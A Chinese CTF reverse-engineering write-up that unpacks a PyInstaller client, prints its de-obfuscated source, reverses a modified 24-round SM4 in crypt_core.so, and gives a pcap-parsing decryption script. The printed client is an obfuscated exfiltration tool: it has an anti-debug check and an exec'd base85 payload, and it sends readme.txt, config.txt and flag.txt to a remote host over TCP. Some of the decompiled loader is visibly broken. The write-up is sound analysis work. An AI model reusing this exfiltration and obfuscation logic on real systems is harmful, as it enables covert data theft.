## 1.re3

pyinstxtractor解包得到client.pyc：



看流量发现readme.txt, config.txt, flag.txt 和密文：



Pylingual 反编译client.pyc:

```python
# Decompiled with PyLingual (https://pylingual.io)
# Internal filename: 'client.py'
# Bytecode version: 3.10.b1 (3439)
# Source timestamp: 1970-01-01 00:00:00 UTC (0)

import base64
import sys
import os
import json
import socket
import hashlib
import crypt_core
import builtins
def _oe(_d, _k1, _k2, _rn):
    # ***<module>._oe: Failure: Compilation Error
    try:
        _b = base64.b85decode(_d.encode())
        _r = []
        for _i, _x in enumerate(_b):
            return ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn), _i, 3) or ((_k1, _k2, _rn),
            _r.append(_x, _k if _k else None)
        _s = bytes(_r).decode()
        _res = []
        for _c in _s:
            if _c.isalpha():
                _base = ord('A') if _c.isupper() else ord('a')
                _res.append((chr, ord(_c), _base, _rn, 26, _base))
            else:
                if _c.isdigit():
                    _res.append(str(int(_c), _rn or 10))
                else:
                    _res.append(_c)
        return ''.join(_res)
    except:
        return _d
_globs = dict(__name__='__main__', __file__=__file__, __package__=None, _oe=_oe)
for _k in dir(builtins):
    if not _k.startswith('_'):
        _globs[_k] = getattr(builtins, _k)
_globs['base64'] = base64
_globs['sys'] = sys
_globs['os'] = os
_globs['json'] = json
_globs['socket'] = socket
_globs['hashlib'] = hashlib
_globs['crypt_core'] = crypt_core
def _obf_check():
    if hasattr(sys, 'gettrace'):
        _tr = sys.gettrace()
        if _tr is not None:
            return False
    return True
def _obf_exec(_code):
    # ***<module>._obf_exec: Failure: Different bytecode
    if not _obf_check():
        return None
    else:
        exec(compile, _code, chr(60) | chr(111) | chr(98) | chr(102) | chr(101) | chr(120) | chr(99))
_1667 = '[b85 encoded string (omitted)]'
_obf_exec(base64.b85decode(_1667).decode())
```

client.py里面exec的payload使用base85解码：
1
```python
_j0 = lambda: (30 ^ 126) + (520 % 26)
_j1 = lambda: (158 ^ 184) + (820 % 54)
_j2 = lambda: (37 ^ 2) + (687 % 25)
_j3 = lambda: (72 ^ 112) + (474 % 30)
_j4 = lambda: (173 ^ 82) + (257 % 73)
_j5 = lambda: (117 ^ 203) + (331 % 54)
_j6 = lambda: (242 ^ 46) + (846 % 33)
_j7 = lambda: (21 ^ 148) + (425 % 77)
_j8 = lambda: (139 ^ 134) + (427 % 21)
_j9 = lambda: (245 ^ 62) + (413 % 85)
_j10 = lambda: (242 ^ 65) + (892 % 30)
_j11 = lambda: (22 ^ 58) + (740 % 59)
_j12 = lambda: (139 ^ 248) + (771 % 74)
_j13 = lambda: (219 ^ 230) + (262 % 63)
_j14 = lambda: (17 ^ 89) + (622 % 38)
_j15 = lambda: (229 ^ 205) + (369 % 25)
_j16 = lambda: (111 ^ 33) + (433 % 50)
_j17 = lambda: (41 ^ 142) + (512 % 21)

class _Obf3776:
    def __init__(self):
        self._v = 751
    def _m(self):
        return self._v * 5

#!/usr/bin/env python3

import socket
import json
import os
import sys
import hashlib
import time

sys.path.insert(0, os.path.dirname(os.path.dirname(os.path.abspath(__file__))))
import crypt_core


class CustomBase64:
    CUSTOM_ALPHABET = _oe("8<<BLok1UrR}_R>27yTmms1djUI&{(7Ls{Apm;c@eJQYZA-rTHu4po}aw559KBaUw?kHpDBVghrW#KRr", 83, 214, 17)
    STANDARD_ALPHABET = (
        _oe("0fj{dfJO_COA?e)7n4^Mo>&>3T^^WT1BYWEqGTnZX)3I6F|~Czuy#AYdpNp$J-J~b;VEk7AYtVtX5cz}", 83, 214, 17)
    )
    ENCODE_TABLE = str.maketrans(STANDARD_ALPHABET, CUSTOM_ALPHABET)
    DECODE_TABLE = str.maketrans(CUSTOM_ALPHABET, STANDARD_ALPHABET)

    @classmethod
    def decode(cls, data: str) -> bytes:
        import base64

        std_b64 = data.translate(cls.DECODE_TABLE)
        return base64.b64decode(std_b64)


SERVER_HOST = ""
SERVER_PORT = 9999
KEY_B64 = _oe("C7MAupdc5tRBM!52kv4Wmp~Hle`A4N5`t?5nObY+L~6Pz5wdF*y=E$zQv!xZ", 83, 214, 17)
KEY = CustomBase64.decode(KEY_B64)
FILES_TO_SEND = [_oe("I-p}FvS)q0emD", 83, 214, 17), _oe("B(-BJ_<B6O", 83, 214, 17), _oe("C$MxRtZ99{emD", 83, 214, 17)]


def _opaque_true():
    _x = 0
    for _i in range(100):
        _x += _i * (_i - _i + 1)
    return _x >= 0


def _opaque_false():
    _a, _b = 5, 7
    return (_a * _b) == (_b * _a + 1)


def _dead_calc():
    _dead = 0
    for _i in range(50):
        _dead = (_dead + _i) % 17
        if _dead > 100:
            _dead = _dead * 2 + 1
    return _dead


def encrypt_file(key: bytes, plaintext: bytes) -> bytes:
    _state = 0
    _result = None
    while _state < 3:
        if _state == 0:
            if _opaque_true():
                _result = crypt_core.encode_data(plaintext, key[:16])
                _state = 2
            else:
                _dead_calc()
                _state = 1
        elif _state == 1:
            _dead_calc()
            _state = 2
        elif _state == 2:
            if _opaque_false():
                _result = None
            _state = 3
    return _result


def send_single_file(sock, filename, plaintext):
    _s = 0
    _ct = None
    _pl = None
    while _s < 5:
        if _s == 0:
            _ct = encrypt_file(KEY, plaintext)
            _s = 1
        elif _s == 1:
            _pl = {_oe("B&>2Jvtu`)", 83, 214, 17): filename, _oe("C#-fVpm;c-emD", 83, 214, 17): _ct.hex()}
            _s = 2
        elif _s == 2:
            if _opaque_true():
                sock.sendall(json.dumps(_pl).encode(_oe("KfPvt;{", 83, 214, 17)) + b"\n")
                _s = 4
            else:
                _dead_calc()
                _s = 3
        elif _s == 3:
            _dead_calc()
            _s = 4
        elif _s == 4:
            if not _opaque_false():
                time.sleep(0.1)
            _s = 5


def _verify_cmd(cmd):
    _state = 10
    _hash_val = None
    _valid = False

    while _state < 50:
        if _state == 10:
            if len(cmd) > 0:
                _state = 20
            else:
                _state = 49
        elif _state == 20:
            _hash_val = hashlib.md5(cmd.encode()).hexdigest()
            _state = 30
        elif _state == 30:
            if _opaque_true():
                _valid = _hash_val == _oe("VWK4=qGuqYBxK?sVWlBw<RW0^B4q9&VB;re<0L2U", 83, 214, 17)
                _state = 40
            else:
                _dead_calc()
                _state = 49
        elif _state == 40:
            if _valid:
                _state = 50
            else:
                _state = 49
        elif _state == 49:
            return False

    return _valid


def _get_server_host(args):
    _s = 100
    _host = None

    while _s < 200:
        if _s == 100:
            if len(args) > 2:
                _s = 110
            else:
                _s = 120
        elif _s == 110:
            _host = args[2]
            _s = 200
        elif _s == 120:
            if _opaque_true():
                _host = ""
            _s = 200
        elif _s == 200:
            if _opaque_false():
                _host = _oe("Ywsm};Xh>fDF", 83, 214, 17)
            _s = 201

    return _host


def main():
    _state = 0
    _sock = None
    _idx = 0
    _printed_header = False

    while _state < 100:
        if _state == 0:
            if _opaque_false():
                print(_oe("2B2dm_GLArX8", 83, 214, 17))
            _state = 1
        elif _state == 1:
            if len(sys.argv) < 2:
                _state = 5
            else:
                _state = 2
        elif _state == 2:
            if _verify_cmd(sys.argv[1]):
                _state = 3
            else:
                _state = 4
        elif _state == 3:
            if not _printed_header:
                print("=" * 50)
                print(_oe("8K7l9zh`rSYcQZO7{6mSyk;f8F$cA4C9`^SyD5F)", 83, 214, 17))
                print("=" * 50)
                _printed_header = True
            _state = 10
        elif _state == 4:
            print("错误：无效的命令")
            _state = 99
        elif _state == 5:
            print("用法：python client.py <command> [SERVER_HOST]")
            _state = 99
        elif _state == 10:
            try:
                _sock = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
                _state = 11
            except Exception:
                _state = 99
        elif _state == 11:
            _host = _get_server_host(sys.argv)
            _state = 12
        elif _state == 12:
            try:
                _sock.connect((_host, SERVER_PORT))
                _state = 20
            except Exception as e:
                print(f"[!] 连接失败：{e}")
                _state = 99
        elif _state == 20:
            if _idx < len(FILES_TO_SEND):
                _state = 21
            else:
                _state = 30
        elif _state == 21:
            _fname = FILES_TO_SEND[_idx]
            _state = 22
        elif _state == 22:
            if os.path.exists(_fname):
                _state = 23
            else:
                _state = 28
        elif _state == 23:
            with open(_fname, "rb") as _f:
                _data = _f.read()
            _state = 24
        elif _state == 24:
            if _opaque_true():
                print(f"[*] 发送文件")
            _state = 25
        elif _state == 25:
            if not _opaque_false():
                send_single_file(_sock, _fname, _data)
            _state = 26
        elif _state == 26:
            _idx += 1
            _state = 20
        elif _state == 28:
            print(f"[-] 文件不存在")
            _state = 29
        elif _state == 29:
            _idx += 1
            _state = 20
        elif _state == 30:
            if _opaque_true():
                time.sleep(0.2)
            _state = 31
        elif _state == 31:
            if _sock:
                _sock.close()
            _state = 99
        elif _state == 99:
            break


if __name__ == _oe("42g9itaJ>C", 83, 214, 17):
    _dead_calc()
    if _opaque_true():
        main()
    else:
        _dead_calc()
```

注意到：



开始逆向crypt_core.so：



交叉应用字符串encode_data：



sub_9820 使用了多次这个字符串，点进去看是个 Python 包装层（有一堆 参数校验 + 异常API调用），参数校验后点进sub_60B0，是个魔改SM4：



加密逻辑是魔改SM4-PKCS#7，一般赛题只改一些常量 + 轮数，核心算法不会改；发现改了S-box，FK（4个DWORD），CK（32个DWORD，用了前24个），轮数24轮，key取前16bytes。

对照标准SM4常量：

```python
# 系统参数
FK = [0xA3B1BAC6, 0x56AA3350, 0x677D9197, 0xB27022DC]

# 固定参数CK
CK = [
    0x00070e15, 0x1c232a31, 0x383f464d, 0x545b6269,
    0x70777e85, 0x8c939aa1, 0xa8afb6bd, 0xc4cbd2d9,
    0xe0e7eef5, 0xfc030a11, 0x181f262d, 0x343b4249,
    0x50575e65, 0x6c737a81, 0x888f969d, 0xa4abb2b9,
    0xc0c7ced5, 0xdce3eaf1, 0xf8ff060d, 0x141b2229,
    0x30373e45, 0x4c535a61, 0x686f767d, 0x848b9299,
    0xa0a7aeb5, 0xbcc3cad1, 0xd8dfe6ed, 0xf4fb0209,
    0x10171e25, 0x2c333a41, 0x484f565d, 0x646b7279
]
SBox = [
    0xD6, 0x90, 0xE9, 0xFE, 0xCC, 0xE1, 0x3D, 0xB7, 0x16, 0xB6, 0x14, 0xC2, 0x28, 0xFB, 0x2C, 0x05,
    0x2B, 0x67, 0x9A, 0x76, 0x2A, 0xBE, 0x04, 0xC3, 0xAA, 0x44, 0x13, 0x26, 0x49, 0x86, 0x06, 0x99,
    0x9C, 0x42, 0x50, 0xF4, 0x91, 0xEF, 0x98, 0x7A, 0x33, 0x54, 0x0B, 0x43, 0xED, 0xCF, 0xAC, 0x62,
    0xE4, 0xB3, 0x1C, 0xA9, 0xC9, 0x08, 0xE8, 0x95, 0x80, 0xDF, 0x94, 0xFA, 0x75, 0x8F, 0x3F, 0xA6,
    0x47, 0x07, 0xA7, 0xFC, 0xF3, 0x73, 0x17, 0xBA, 0x83, 0x59, 0x3C, 0x19, 0xE6, 0x85, 0x4F, 0xA8,
    0x68, 0x6B, 0x81, 0xB2, 0x71, 0x64, 0xDA, 0x8B, 0xF8, 0xEB, 0x0F, 0x4B, 0x70, 0x56, 0x9D, 0x35,
    0x1E, 0x24, 0x0E, 0x5E, 0x63, 0x58, 0xD1, 0xA2, 0x25, 0x22, 0x7C, 0x3B, 0x01, 0x21, 0x78, 0x87,
    0xD4, 0x00, 0x46, 0x57, 0x9F, 0xD3, 0x27, 0x52, 0x4C, 0x36, 0x02, 0xE7, 0xA0, 0xC4, 0xC8, 0x9E,
    0xEA, 0xBF, 0x8A, 0xD2, 0x40, 0xC7, 0x38, 0xB5, 0xA3, 0xF7, 0xF2, 0xCE, 0xF9, 0x61, 0x15, 0xA1,
    0xE0, 0xAE, 0x5D, 0xA4, 0x9B, 0x34, 0x1A, 0x55, 0xAD, 0x93, 0x32, 0x30, 0xF5, 0x8C, 0xB1, 0xE3,
    0x1D, 0xF6, 0xE2, 0x2E, 0x82, 0x66, 0xCA, 0x60, 0xC0, 0x29, 0x23, 0xAB, 0x0D, 0x53, 0x4E, 0x6F,
    0xD5, 0xDB, 0x37, 0x45, 0xDE, 0xFD, 0x8E, 0x2F, 0x03, 0xFF, 0x6A, 0x72, 0x6D, 0x6C, 0x5B, 0x51,
    0x8D, 0x1B, 0xAF, 0x92, 0xBB, 0xDD, 0xBC, 0x7F, 0x11, 0xD9, 0x5C, 0x41, 0x1F, 0x10, 0x5A, 0xD8,
    0x0A, 0xC1, 0x31, 0x88, 0xA5, 0xCD, 0x7B, 0xBD, 0x2D, 0x74, 0xD0, 0x12, 0xB8, 0xE5, 0xB4, 0xB0,
    0x89, 0x69, 0x97, 0x4A, 0x0C, 0x96, 0x77, 0x7E, 0x65, 0xB9, 0xF1, 0x09, 0xC5, 0x6E, 0xC6, 0x84,
    0x18, 0xF0, 0x7D, 0xEC, 0x3A, 0xDC, 0x4D, 0x20, 0x79, 0xEE, 0x5F, 0x3E, 0xD7, 0xCB, 0x39, 0x48
]
```

PKCS#7：



改了SBOX：



改了FK：



改了CK：



改成了24轮：



写脚本解密：

```python
from __future__ import annotations

import argparse
import base64
import json
import socket
import struct
from pathlib import Path

CUSTOM_ALPHABET = "QWERTYUIOPASDFGHJKLZXCVBNMqwertyuiopasdfghjklzxcvbnm1234567890!@"
STANDARD_ALPHABET = "ABCDEFGHIJKLMNOPQRSTUVWXYZabcdefghijklmnopqrstuvwxyz0123456789+/"
KEY_B64 = "eUYme4MkN1KSC1bWJZJ2w3FUJCiEXT13D2u1KmiNtfhXKZYE"

SBOX = [
    0xEC, 0xCA, 0x0E, 0xF3, 0x08, 0xF0, 0x2A, 0xA2, 0x3B, 0x18, 0x2B, 0x5C, 0x37, 0xBD, 0x12, 0xA8,
    0x05, 0xD3, 0xA1, 0x57, 0x4F, 0x96, 0xFC, 0xF5, 0xA7, 0x14, 0x19, 0x66, 0x58, 0x9B, 0xBF, 0xB4,
    0x39, 0xD5, 0x1E, 0x1A, 0x30, 0xBC, 0x6C, 0x80, 0xB7, 0xED, 0x41, 0x06, 0xD9, 0x17, 0x67, 0xCD,
    0x1D, 0x2C, 0xAE, 0x24, 0x03, 0x13, 0xC6, 0x53, 0x83, 0x11, 0x0A, 0xF7, 0xC0, 0x4D, 0xC4, 0x9E,
    0x8D, 0x00, 0x1F, 0xC3, 0x3F, 0x35, 0x9F, 0xCB, 0x72, 0x9D, 0x16, 0x6F, 0xAC, 0xCE, 0x3C, 0x5E,
    0xA6, 0xE1, 0x7B, 0x34, 0x36, 0x32, 0xB8, 0x95, 0x91, 0x89, 0x52, 0xC1, 0xE7, 0xA3, 0x33, 0x48,
    0x04, 0xCF, 0x10, 0xEB, 0x25, 0xBB, 0x8E, 0x0F, 0x81, 0x6E, 0xB3, 0x43, 0x45, 0x8F, 0x49, 0xF8,
    0x4B, 0x59, 0x07, 0x4A, 0xDE, 0xFD, 0xC8, 0xD0, 0x84, 0x8B, 0xFB, 0xDA, 0xDB, 0x28, 0xD4, 0x3E,
    0xA4, 0x2F, 0x56, 0xBE, 0xEF, 0x86, 0xC7, 0x62, 0xEA, 0x76, 0xE9, 0xD6, 0x74, 0xA5, 0x6B, 0xF9,
    0x98, 0x7D, 0x3A, 0x26, 0x5A, 0xAF, 0x87, 0x0D, 0x1B, 0x2E, 0xB2, 0xE3, 0x6A, 0xCC, 0xF1, 0xFF,
    0xD7, 0xF6, 0x1C, 0xC9, 0xE8, 0x70, 0x20, 0x4E, 0x23, 0x3D, 0xC2, 0xAA, 0xDC, 0x0B, 0xF2, 0x5F,
    0x7A, 0xFA, 0x88, 0x97, 0x47, 0xD1, 0x0C, 0x02, 0x31, 0x7F, 0xF4, 0x75, 0x15, 0x93, 0x38, 0x8A,
    0x42, 0x90, 0x71, 0xDD, 0x73, 0x55, 0x7E, 0xB5, 0x5B, 0x29, 0x4C, 0x9A, 0xE0, 0x8C, 0xB0, 0xE5,
    0x64, 0x27, 0x01, 0xDF, 0xAD, 0x21, 0x79, 0x94, 0x92, 0x51, 0x69, 0x7C, 0x22, 0x63, 0x50, 0x85,
    0x2D, 0xE2, 0x40, 0x46, 0x44, 0xA9, 0x82, 0xB6, 0x61, 0xD8, 0xD2, 0xB9, 0x68, 0xAB, 0xB1, 0x5D,
    0x65, 0x54, 0x77, 0xA0, 0xC5, 0xBA, 0x60, 0x9C, 0xE4, 0xFE, 0xEE, 0x99, 0xE6, 0x78, 0x6D, 0x09,
]

FK = [0x3B1F86A4, 0x83F7332D, 0x58ADBA8E, 0x71DC3F73]
CK = [
    0x9A148706, 0x657904A4, 0xB0535D2D, 0x865C7AA7, 0xF7FEF2D4, 0xF09D3A8B,
    0x67CB0390, 0xF3B1D1AA, 0x1941EDE3, 0xCDD55650, 0x272AA612, 0x397B1DC6,
    0x767AAB6B, 0x71A39044, 0x8A77F592, 0x7B5A7907, 0x97D18251, 0xCA1960CB,
    0x44B54134, 0x3F30C70A, 0x5EB36C72, 0x5569E716, 0x51BF832C, 0xF13A95BC,
]

def decode_custom_b64(data: str) -> bytes:
    table = str.maketrans(CUSTOM_ALPHABET, STANDARD_ALPHABET)
    return base64.b64decode(data.translate(table))

def rol32(x: int, n: int) -> int:
    x &= 0xFFFFFFFF
    return ((x << n) | (x >> (32 - n))) & 0xFFFFFFFF

def tau(x: int) -> int:
    return (
        (SBOX[(x >> 24) & 0xFF] << 24)
        | (SBOX[(x >> 16) & 0xFF] << 16)
        | (SBOX[(x >> 8) & 0xFF] << 8)
        | SBOX[x & 0xFF]
    )

def t_encrypt(x: int) -> int:
    y = tau(x)
    return y ^ rol32(y, 2) ^ rol32(y, 10) ^ rol32(y, 18) ^ rol32(y, 24)

def t_key(x: int) -> int:
    y = tau(x)
    return y ^ rol32(y, 13) ^ rol32(y, 23)

def expand_round_keys(key: bytes) -> list[int]:
    mk = [int.from_bytes(key[i : i + 4], "big") for i in range(0, 16, 4)]
    state = [mk[i] ^ FK[i] for i in range(4)]
    round_keys = []
    for i in range(24):
        nxt = state[i] ^ t_key(state[i + 1] ^ state[i + 2] ^ state[i + 3] ^ CK[i])
        state.append(nxt)
        round_keys.append(nxt)
    return round_keys

def crypt_block(block: bytes, round_keys: list[int]) -> bytes:
    words = [int.from_bytes(block[i : i + 4], "big") for i in range(0, 16, 4)]
    for i in range(24):
        words.append(words[i] ^ t_encrypt(words[i + 1] ^ words[i + 2] ^ words[i + 3] ^ round_keys[i]))
    return b"".join(word.to_bytes(4, "big") for word in words[-1:-5:-1])

def decrypt_ecb(ciphertext: bytes, key: bytes) -> bytes:
    round_keys = expand_round_keys(key)[::-1]
    out = bytearray()
    for i in range(0, len(ciphertext), 16):
        out.extend(crypt_block(ciphertext[i : i + 16], round_keys))
    pad = out[-1]
    if not (1 <= pad <= 16 and out[-pad:] == bytes([pad]) * pad):
        raise ValueError("invalid PKCS#7 padding")
    return bytes(out[:-pad])

def iter_pcapng_tcp_payloads(path: Path) -> list[bytes]:
    data = path.read_bytes()
    if data[:4] != b"\x0a\x0d\x0d\x0a":
        raise ValueError("expected pcapng file")

    payloads = []
    offset = 0
    endian = "<"

    while offset + 12 <= len(data):
        block_type = struct.unpack_from("<I", data, offset)[0]
        if block_type == 0x0A0D0D0A:
            bom = struct.unpack_from("<I", data, offset + 8)[0]
            endian = "<" if bom == 0x1A2B3C4D else ">"
        block_len = struct.unpack_from(endian + "I", data, offset + 4)[0]
        if block_type == 0x00000006:
            cap_len = struct.unpack_from(endian + "I", data, offset + 20)[0]
            packet = data[offset + 28 : offset + 28 + cap_len]
            payload = extract_tcp_payload(packet)
            if payload:
                payloads.append(payload)
        if block_len < 12:
            break
        offset += block_len

    return payloads

def extract_tcp_payload(packet: bytes) -> bytes:
    if len(packet) < 14:
        return b""
    eth_type = struct.unpack_from("!H", packet, 12)[0]
    if eth_type != 0x0800:
        return b""

    ip = packet[14:]
    if len(ip) < 20 or ip[9] != 6:
        return b""
    ihl = (ip[0] & 0x0F) * 4
    tcp = ip[ihl:]
    if len(tcp) < 20:
        return b""

    sport, dport = struct.unpack_from("!HH", tcp, 0)
    if 9999 not in (sport, dport):
        return b""
    data_offset = ((tcp[12] >> 4) & 0x0F) * 4
    return tcp[data_offset:]

def load_records_from_pcap(path: Path) -> list[dict[str, str]]:
    records = []
    for payload in iter_pcapng_tcp_payloads(path):
        for line in payload.splitlines():
            line = line.strip()
            if not line.startswith(b"{"):
                continue
            obj = json.loads(line.decode("utf-8"))
            if "filename" in obj and "ciphertext" in obj:
                records.append(obj)
    return records

def default_pcap_path() -> Path:
    return Path(__file__).resolve().parent.parent / "capture.pcap"

def main() -> None:
    parser = argparse.ArgumentParser(description="Decrypt captured files produced by crypt_core.so")
    parser.add_argument("--pcap", type=Path, default=default_pcap_path(), help="pcapng file to parse")
    parser.add_argument("--name", help="only print one decrypted filename")
    args = parser.parse_args()

    key = decode_custom_b64(KEY_B64)[:16]
    records = load_records_from_pcap(args.pcap)

    for record in records:
        name = record["filename"]
        if args.name and name != args.name:
            continue
        plaintext = decrypt_ecb(bytes.fromhex(record["ciphertext"]), key)
        print(f"=== {name} ===")
        try:
            print(plaintext.decode("utf-8"))
        except UnicodeDecodeError:
            print(plaintext.hex())

if __name__ == "__main__":
    main()
```



## 5.re2

三层套娃：UPX + b64 + rc4，最后AES解密

